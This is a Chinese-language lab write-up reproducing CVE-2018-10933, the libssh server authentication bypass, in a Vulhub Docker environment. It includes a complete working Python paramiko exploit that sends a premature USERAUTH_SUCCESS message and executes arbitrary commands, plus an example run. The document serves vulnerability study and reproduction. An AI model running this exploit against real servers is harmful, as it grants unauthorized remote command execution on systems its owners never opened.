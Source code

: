 # Libssh 服务端权限认证绕过漏洞 CVE-2018-10933

## 漏洞描述

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 环境搭建

Vulhub执行如下命令启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@127.0.0.1
```

![image-20220226202222786](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262022920.png)

## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

```python
python CVE-2018-10933.py 127.0.0.1 2222 "ps aux"
```

![image-20220226203232510](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262032774.png)

